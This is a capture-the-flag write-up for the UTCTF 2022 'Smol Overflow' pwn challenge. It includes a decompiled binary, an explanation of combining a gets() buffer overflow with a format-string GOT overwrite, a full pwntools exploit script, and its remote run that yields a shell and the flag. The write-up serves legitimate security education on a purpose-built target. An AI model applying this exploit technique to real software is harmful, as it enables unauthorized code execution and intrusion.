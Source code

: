 # UTCTF 2022

## Smol Overflow 

> You can have a little overflow, as a treat
> 
> By Tristan (@trab on discord)
>
> `nc pwn.utctf.live 5004` 
>
> [`smol`](smol)

Tags: _pwn_ _x86-64_ _bof_ _format-string_ _got-overwrite_ _remote-shell_


## Summary

Basic format-string GOT overwrite exploit with BOF to write out format string.  _win_ function included!


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Partial RELRO + No PIE = GOT overwrite or ROP if you have BOF and canary.


### Ghidra Decompile

```c
undefined8 main(void)
{
  char cVar1;
  int iVar2;
  ulong uVar3;
  char *pcVar4;
  long in_FS_OFFSET;
  byte bVar5;
  char local_158 [111];
  undefined4 uStack233;
  undefined2 uStack229;
  char local_78 [104];
  long local_10;
  
  bVar5 = 0;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What kind of data do you have?");
  gets(local_158);
  iVar2 = strcmp(local_158,"big data");
  if (iVar2 == 0) {
    uVar3 = 0xffffffffffffffff;
    pcVar4 = (char *)((long)&uStack233 + 1);
    do {
      if (uVar3 == 0) break;
      uVar3 = uVar3 - 1;
      cVar1 = *pcVar4;
      pcVar4 = pcVar4 + (ulong)bVar5 * -2 + 1;
    } while (cVar1 != '\0');
    *(undefined4 *)((long)&uStack233 + ~uVar3) = 0x30322025;
    *(undefined2 *)((long)&uStack229 + ~uVar3) = 0x73;
  }
  else {
    iVar2 = strcmp(local_158,"smol data");
    if (iVar2 == 0) {
      uVar3 = 0xffffffffffffffff;
      pcVar4 = (char *)((long)&uStack233 + 1);
      do {
        if (uVar3 == 0) break;
        uVar3 = uVar3 - 1;
        cVar1 = *pcVar4;
        pcVar4 = pcVar4 + (ulong)bVar5 * -2 + 1;
      } while (cVar1 != '\0');
      *(undefined4 *)((long)&uStack233 + ~uVar3) = 0x73352025;
      *(undefined *)((long)&uStack229 + ~uVar3) = 0;
    }
    else {
      puts("Error");
    }
  }
  puts("Give me your data");
  gets(local_78);
  printf((char *)((long)&uStack233 + 1),local_78);
  putchar(10);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

> _smol_ this isn't.  Most "smol" challenges are a few lines.  At least the solve is "smol".
>
> Not shown is the win function `get_flag`.  Clearly the objective is to execute that.

There's a few `gets` here we can exploit as well as `printf`.

The first prompt will change the format string if you enter `big data` or `smol data`.  None of this is important.

```
  char local_158 [111];
  undefined4 uStack233;
  undefined2 uStack229;
  char local_78 [104];
```

Above is how the variables are stacked up in the stack.  The format string is at `uStack233 + 1`:

```
  printf((char *)((long)&uStack233 + 1),local_78);
```

`gets(local_158);` can be used to overwrite the format string; just send `0x158 - 233 + 1` of garbage follwed by your format string.  It's that easy.  Why `0x158` and `233`?  Look at the variables above.  `local_158` is `0x158` bytes from the end of the stack frame.  `uStack233` is `233` (decimal) bytes from the end of the stack frame (Ghidra uses an underscore for hex).

The format string just needs to replace `putchar` with `get_flag` so that on `putchar(10);` invocation we get a shell.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./smol',checksec=False)

if args.REMOTE:
    p = remote('pwn.utctf.live', 5004)
else:
    p = process(binary.path)

offset = (0x158 - 233 + 1) // 8 + 6

payload  = b''
payload += (0x158 - 233 + 1) * b'A'
payload += fmtstr_payload(offset,{binary.got.putchar:binary.sym.get_flag})

assert(len(payload) < (0x158 - 0x78))

p.sendlineafter(b'have?\n',payload)
p.sendlineafter(b'data\n',b'')
p.interactive()
```

The `assert` is there to make sure our payload does not allow the second `gets` to _get_ in our way, if it did, we'd have to make sure to overwrite the rest of our payload correctly.  IOW, just keep it short.


```bash
# ./exploit.py REMOTE=1
[+] Opening connection to pwn.utctf.live on port 5004: Done
[*] Switching to interactive mode
$ cat flag.txt
utflag{just_a_little_salami15983350}
```
